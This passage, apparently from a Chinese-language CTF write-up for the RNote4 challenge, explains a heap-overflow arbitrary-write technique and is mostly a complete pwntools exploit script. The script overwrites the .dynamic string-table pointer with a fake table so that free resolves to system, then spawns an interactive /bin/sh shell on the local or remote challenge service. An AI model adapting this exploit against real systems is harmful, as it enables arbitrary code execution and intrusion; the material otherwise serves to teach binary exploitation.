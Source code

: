 


所以呢，可以先add两个note，然后编辑第一个note使得堆溢出到第二个note的指针，然后再修改第二个note，实现任意写。至于写什么，刚刚也说了，先写`.dynamic`指向字符串表的指针，使其指向一块可写内存，比如`.bss`，然后再写这块内存，使得相应偏移出刚好有个`system\x00`。exp如下

```python
from pwn import *

g_local=True
#e=ELF('./libc.so.6')
#context.log_level='debug'
if g_local:
	sh =process('./RNote4')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("rnote4.2018.teamrois.cn", 6767)

def add(content):
	assert len(content) < 256
	sh.send("\x01")
	sh.send(chr(len(content)))
	sh.send(content)

def edit(idx, content):
	assert idx < 32 and len(content) < 256
	sh.send("\x02")
	sh.send(chr(idx))
	sh.send(chr(len(content)))
	sh.send(content)

def delete(idx):
	assert idx < 32
	sh.send("\x03")
	sh.send(chr(idx))

#伪造的字符串表，(0x457-0x3f8)刚好是"free\x00"字符串的偏移
payload = "C" * (0x457-0x3f8) + "system\x00"
#先新建两个notes
add("/bin/sh\x00" + "A" * 0x10)
add("/bin/sh\x00" + "B" * 0x10)
#溢出时尽量保证堆块不被破坏，不过这里不会再做堆的操作了其实也无所谓
edit(0, "/bin/sh\x00" + "A" * 0x10 + p64(33) + p64(0x18) + p64(0x601EB0))
#将0x601EB0，即.dynamic的字符串表指针，写成0x6020C8
edit(1, p64(0x6020C8))

edit(0, "/bin/sh\x00" + "A" * 0x10 + p64(33) + p64(0x18) + p64(0x6020C8))
#在0x6020C8处写入伪造的字符串表
edit(1, payload)

#会第一次调用free，所以实际上是system("/bin/sh")被调用，如前面所说
delete(0)
sh.interactive()
```
